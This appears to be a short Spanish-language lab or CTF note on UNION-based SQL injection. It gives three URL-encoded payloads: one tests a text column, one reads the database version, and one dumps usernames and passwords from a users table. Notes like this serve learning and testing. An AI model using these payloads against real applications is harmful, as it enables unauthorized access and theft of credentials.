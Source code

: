 
Se puede usar la segunda columna
```SQL
'+UNION+SELECT+NULL,'a'+--+- 
```

Sacamos la versión de la DB usada
```SQL
'+UNION+SELECT+NULL,version()+--+-
```


Usamos concatenación de strings

![[Pasted image 20241223230156.png]]

```SQL
'+UNION+SELECT+NULL,username||':'||password+FROM+users+--+-
```